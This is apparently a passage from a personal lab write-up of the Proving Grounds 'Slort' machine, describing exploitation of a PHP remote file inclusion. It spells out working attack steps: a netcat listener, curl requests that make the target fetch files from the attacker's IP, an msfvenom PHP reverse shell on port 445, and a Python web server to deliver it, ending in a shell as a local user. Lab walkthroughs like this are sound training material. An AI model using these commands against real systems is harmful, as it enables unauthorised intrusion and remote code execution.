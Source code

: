 Also site is sketch since it references the page as a .php file via local file inclusion LFI so maybe I can grab other things that arent local? 

My IP is 192.168.49.53 so I'll try a netcat nc reverse listener

1. Catch: sudo nc -nlvp 80 
    
2. Send: curl http://192.168.53.53:8080/site/index.php?page=http://192.168.49.53/hola
    

Also wow the proving grounds default Kali is so slow. Will need to VPN in and do these on my own kali since this is ridiculous

![](https://lh4.googleusercontent.com/oJQiCeHA-TKxwpdqHTLZvctt0GYhXeQn9HgCFC3R6wuFNO4lZQblAJMtNhlvtM4AexbqQ2Fulj3j0pLF9keJk4Jy-uo127dCWuM2hbfLEyPPi-pC1BWvv7F9xD_WwR4vLw=w1280)

Well the target system spoke spanish but no "Hola! Como Estas?" /hola page from me thus the connection closed.

At least it can connect to an attack box and try to pull a page so now to have it pull a reverse shell from me. 

## 

[

](https://www.prestonzen.com/publications/cybersecurity/oscp/windows/slort#h.ccufr1lgl0a1)

Weaponization

I read somewhere that it's best to first pull a script that isn't the reverse shell but a page that then downloads the rev shell once it's already been downloaded to the target server. Since the target webserver reads php we'll match format and give it a php file.

Let's craft the reverse shell via venom

Since target is running a php site we'll use a php reverse shell. Also since 445 is open we can use that as a listening port since it is already open and won't be easily blocked.

msfvenom -p php/reverse_php LHOST=192.168.49.53 LPORT=445 > reverse.php

## 

[

](https://www.prestonzen.com/publications/cybersecurity/oscp/windows/slort#h.oujtojhx9hjm)

Exploit

Now to set up a http server so target can actually download them:

python3 -m http.server 80

curl http://192.168.53.53:8080/site/index.php?page=http://192.168.49.53/reverse.php

![](https://lh4.googleusercontent.com/5Z6CBuB4c7BGNnW1qxlNR8NRxJ4i9xQFNAvn7lvtgc9jbLd7r3aWITcJezH3WgtdlpW02MlvP-jL4ysN6CgDeqUH-jPiuE9eRept3QRVIl7cVR02QFWYGD2NR1UkctWUxA=w1280)

And I'm in. Remember to use "type" to read files in windows

whoami

slort\rupert
